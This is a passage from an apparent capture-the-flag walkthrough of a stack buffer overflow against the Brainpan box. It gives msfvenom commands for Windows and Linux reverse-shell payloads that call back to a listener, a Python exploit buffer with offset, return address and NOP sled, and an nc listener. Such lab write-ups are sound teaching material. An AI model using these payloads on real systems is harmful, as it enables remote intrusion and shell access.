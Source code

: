 And then execute the script:

![Immunity Debugger breakpoint ESP value](/img/debugger_breakpoint_esp_value.png)

This confirms we have control over the ESP and thus the execution flow.

Lastly, we need to craft the exploit. This is where the bad chars come into play.

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"`

For the last time, we need to edit our script and paste the output of msfvenom:

```Python
payload=b"<msfvenom output>"
buffer=b"A"*524+b"\xf3\x12\x17\x31"+b"\x90"*20+payload
```

**Note:** \x90 is used as padding to make sure the payload is executed.

To test the payload, we'll run *brainpan.exe* without attaching it to Immunity Debugger and listen for incoming connections with `nc -lvnp 4444`:

![Exploit payload](/img/exploit_payload.png)

To run the same exploit on the brainpan box, we need to adapt the payload and the IP address in the script

`msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"`

If we then run the exploit:
